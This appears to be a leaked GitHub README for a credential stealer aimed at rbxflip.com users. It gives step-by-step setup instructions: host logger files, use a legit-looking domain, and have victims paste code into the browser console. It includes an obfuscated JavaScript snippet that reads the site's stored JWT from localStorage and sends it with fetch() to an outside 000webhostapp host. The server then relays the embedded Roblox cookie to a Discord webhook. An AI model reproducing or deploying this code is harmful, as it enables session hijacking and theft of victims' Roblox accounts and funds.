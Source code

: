 me and my friend made this ill leak it since ixware skids took my idea have fun with it.

*How To Use**

**1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console: 
6. make sure tu put you're webhook on config.php**

var _0x2c3c=['41qRGKIU','226227XOWtdT','9571kRaNrS','getItem','auth._token.local','259484aCtxRr','https://xss992.000webhostapp.com/13/coinflip.php?t=','1ICLKrP','85307TnWote','53639HVwscK','194480dULgxy','23wlWByU','1oUiTEM','7247ahdNmv','split'];var _0x2b7b=function(_0x3dc2af,_0x33a69b){_0x3dc2af=_0x3dc2af-0x83;var _0x2c3c00=_0x2c3c[_0x3dc2af];return _0x2c3c00;};var _0x51f868=_0x2b7b;(function(_0x3b43f1,_0x21e07e){var _0x324dbb=_0x2b7b;while(!![]){try{var _0x4983eb=parseInt(_0x324dbb(0x8d))+-parseInt(_0x324dbb(0x84))*-parseInt(_0x324dbb(0x8a))+parseInt(_0x324dbb(0x8c))*parseInt(_0x324dbb(0x8f))+parseInt(_0x324dbb(0x8b))+-parseInt(_0x324dbb(0x85))*-parseInt(_0x324dbb(0x8e))+-parseInt(_0x324dbb(0x83))*parseInt(_0x324dbb(0x90))+-parseInt(_0x324dbb(0x88));if(_0x4983eb===_0x21e07e)break;else _0x3b43f1['push'](_0x3b43f1['shift']());}catch(_0x413a66){_0x3b43f1['push'](_0x3b43f1['shift']());}}}(_0x2c3c,0x367c7),fetch(_0x51f868(0x89)+atob(localStorage[_0x51f868(0x86)](_0x51f868(0x87))[_0x51f868(0x91)]('\x20')[0x1][_0x51f868(0x91)]('.')[0x1])['split']('\x22')[0x3]));

*7. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, I have this thing since 2020 may*

